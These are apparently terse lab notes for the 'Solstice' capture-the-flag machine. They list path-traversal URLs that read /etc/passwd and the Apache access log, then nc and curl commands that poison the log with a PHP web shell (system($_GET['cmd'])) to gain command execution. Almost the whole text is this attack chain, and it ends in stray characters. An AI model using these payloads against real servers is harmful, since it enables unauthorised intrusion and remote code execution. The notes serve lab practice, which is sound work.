 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Solstice
# 13/2/2023

----------------------------------------------------
# nmap result
----------------------------------------------------


http://192.168.157.72:8593/index.php
http://192.168.157.72:8593/index.php?book=../../../../../etc/passwd

http://192.168.157.72:8593/index.php?book=../../../../../var/log/apache2/access.log

nc 192.168.157.72 80
GET <?php system($_GET[‘cmd’]);?> HTTP/1.1
sudo curl 192.168.157.72:80 -A "<?php system(\$_GET['cmd']); ?>"
curl 192.168.157.72 -A "<?php system($_GET[‘cmd’]);?>"
'_''''''''''''''''''''''''''''''
